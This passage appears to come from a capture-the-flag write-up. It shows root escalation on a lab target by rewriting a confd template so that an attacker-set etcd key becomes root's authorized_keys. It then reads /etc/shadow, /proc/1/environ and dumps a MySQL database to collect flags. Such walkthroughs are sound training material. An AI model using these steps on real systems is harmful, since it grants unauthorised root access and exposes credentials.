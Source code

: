 ```
cat /etc/confd/templates/authorized_keys.tmpl;

{{getv "/ETSCTF/authorized_keys"}}
```

Based on information I got from the project documentation, this seems to be my way to escalate. These two files are responsible for generating an `authorized_keys` file for the user `ETSCTF` with the value of the etcd key `/ETSCTF/authorized_keys`.

So my new plan is to change the `toml` file in order to generate the ssh keys for the user root. I replaced the contents of the file with the following

```toml
[template]
uid = 0
mode = "0400"
src = "authorized_keys.tmpl"
dest = "/root/.ssh/authorized_keys"
keys = [
    "/ETSCTF/authorized_keys",
]
```

**NOTE**: If you produce an invalid file the service will crash and you will have to request a target restart for it to get back up.

Next, I generated an ssh key with no passphrase to use,

```sh
ssh-keygen -N '' -f /tmp/id_rsa;

Generating public/private rsa key pair.
Your identification has been saved in /tmp/id_rsa.
Your public key has been saved in /tmp/id_rsa.pub.
```

Now time to set our public key by using the `etcdctl` utility.

```sh
etcdctl set /ETSCTF/authorized_keys "$(</tmp/id_rsa.pub)";
...
...
ssh -i /tmp/id_rsa root@localhost
root@pcprincipal:~#
```

And we are root lets grab the rest of the flags

```sh
ls /root/ETSCTF*
cat /root/ETSCTF*
grep ETSCTF /etc/shaddow /etc/passwd /proc/1/environ
```

Now we see there are a few more flags we haven't grabbed so lets keep on digging,

```sh
etcdctl get ETSCTF
mysqlshow
mysqldump ETSCTF|grep -i etsctf
```

Now go get your headshot.